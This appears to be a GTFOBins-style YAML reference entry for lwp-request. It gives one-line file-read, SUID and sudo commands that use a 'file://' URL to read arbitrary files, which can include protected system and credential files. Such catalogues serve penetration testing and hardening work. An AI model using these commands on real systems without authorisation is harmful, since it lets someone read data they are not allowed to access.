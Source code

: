 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        lwp-request "file://$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./lwp-request "file://$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo lwp-request "file://$LFILE"
---
```

